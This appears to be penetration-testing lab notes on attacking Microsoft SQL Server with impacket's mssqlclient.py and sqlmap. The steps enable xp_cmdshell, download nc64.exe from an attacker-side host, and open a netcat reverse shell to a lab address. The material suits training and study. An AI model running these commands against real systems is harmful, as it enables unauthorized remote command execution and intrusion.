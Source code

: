 1433 (Microsoft SQL Server)
------------------------------

* `impacket` -> `mssqlclient.py`

	You can connect to a Microsoft SQL Server with `myssqlclient.py` knowing a username and password like so:

```
mssqlclient.py username@10.10.10.125
```

It will prompt you for a password. **If your password fails, the server might be using "Windows authentication", which you can use with:**

```
mssqlclient.py username@10.10.10.125 -windows-auth
```
```
sudo python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth
```

If you have access to a Micosoft SQL Server, you can try and `enable_xp_cmdshell` to run commands. With `mssqlclient.py` you can try:

```
SQL> enable_xp_cmdshell
```

though, you may not have permission. If that DOES succeed, you can now run commands like:

```
SQL> xp_cmdshell whoami
```

check the role you have on the server
```
SELECT is_srvrolemember('sysadmin');
```
use for enabling command shell:
https://cs.piosky.fr/exploit/windows/mssql/#enable-xp-cmdshell


check PWD
```
xp_cmdshell "powershell -c pwd"
```

Download NC from local server
```
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget
http://10.10.14.9/nc64.exe -outfile nc64.exe"
```
exploit
```
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.86 443"


# Exploiting SQL

## sqlmap
get a cookie using the burp or cookie editor extention
since you will need it for auth
```
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"
```

